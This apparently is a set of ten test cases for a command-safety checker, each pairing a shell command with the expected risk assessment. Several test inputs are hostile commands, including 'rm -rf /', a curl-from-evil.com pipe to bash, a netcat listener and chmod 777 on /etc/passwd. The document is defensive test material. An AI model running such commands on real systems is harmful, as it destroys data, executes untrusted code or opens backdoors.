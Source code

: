 # Security Command Test Cases

## Test Case 1: Dangerous File Deletion
**Command**: `rm -rf /`
**Expected**: Should identify as extremely dangerous, explain system destruction risk

## Test Case 2: Remote Script Execution
**Command**: `curl https://evil.com/install.sh | bash`
**Expected**: Should warn about executing untrusted remote scripts

## Test Case 3: Safe Directory Listing
**Command**: `ls -la ~/Documents`
**Expected**: Should identify as safe, read-only operation

## Test Case 4: SQL Injection Risk
**Command**: `mysql -e "SELECT * FROM users WHERE id=$USER_INPUT"`
**Expected**: Should identify SQL injection vulnerability

## Test Case 5: Safe File Search
**Command**: `grep -r "TODO" .`
**Expected**: Should identify as safe, read-only search

## Test Case 6: Password in Command Line
**Command**: `mysql -u root -pMyPassword123 production_db`
**Expected**: Should warn about password exposure in command history

## Test Case 7: Privilege Escalation
**Command**: `chmod 777 /etc/passwd`
**Expected**: Should warn about dangerous permission change on critical file

## Test Case 8: Network Port Opening
**Command**: `nc -lvp 4444`
**Expected**: Should warn about opening a listening port (potential backdoor)

## Test Case 9: Safe Package Update
**Command**: `apt update && apt list --upgradable`
**Expected**: Should identify as safe (only lists, doesn't install)

## Test Case 10: Eval with User Input
**Command**: `eval "$USER_COMMAND"`
**Expected**: Should identify as extremely dangerous (arbitrary code execution)